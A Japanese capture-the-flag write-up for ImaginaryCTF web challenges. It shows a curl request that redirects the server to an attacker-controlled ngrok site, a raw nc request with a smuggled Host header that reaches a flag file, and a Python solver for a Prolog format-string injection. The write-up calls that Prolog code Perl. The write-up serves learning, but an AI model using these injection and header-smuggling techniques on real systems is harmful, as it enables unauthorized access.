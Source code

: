 ngrokを使って攻撃者サーバを公開して、リクエストを送ってみます。  
最初はngrokのリダイレクトがうまくいかなかったのですが、Hostヘッダを調整してみると、リダイレクトさせることができてフラグを取得できました。  

```sh
$ curl http://readme2.chal.imaginaryctf.org//<attackerサイト>/a.php -H "Host: <attackerサイト>"
ictf{just_a_funny_bug_in_bun_http_handling}
```

3000番ポートのサーバへのリクエストにリクエストヘッダがそのまま反映されるのが救いでした。  
フラグメッセージ的に想定解法ではなさそうな気がします。

- 別解

```sh
printf 'GET /.. HTTP/1.0\r\nHost: fakehost/fla\tg.txt\r\n\r\n' | nc localhost 80
```

## WEB（解けなかった問題）

### Pwning en Logique

384 pts - 38 solves

admin権限でログイン後、`/flag`にアクセスできればフラグがもらえるようです。  
guest権限として、`guest:guest`でログインすることはできますが、`/frag`にはアクセスできません。  

言語はPerlで書かれており、ソースコードが提供されていため確認します。  
今回の問題で気になるのは以下の箇所です。

- server\.pl（抜粋）

```perl
greet(Request) :-
    http_session_data(username(Username)),
    http_parameters(Request, [
        greeting(Greeting, [default('Hello')]),
        format(Format, [default('~w, ~w!')])
    ]),
    content_type,
    format(Format, [Greeting, Username]).
```

`format`パラメータによって、形式を指定できるようになっています。  
<https://www.swi-prolog.org/pldoc/doc_for?object=format/2>を参考にすると、`~@`を指定することで、関数を呼び出すことができるようです。

今回の場合は以下のようにすると、関数を実行できます。

```text
/greet?greeting=<関数名>&format=~@,~w
```

- solver.py

```py
#!/usr/bin/env python3
import requests

URL = "http://localhost:8888"

s = requests.session()
r = s.post(f"{URL}/login", data={
  "username": "guest",
  "password": "guest"
})
r = s.get(f"{URL}/greet", params={
    "greeting": "print_flag",
    "format": "~@, ~w"
})
print(r.text)
```
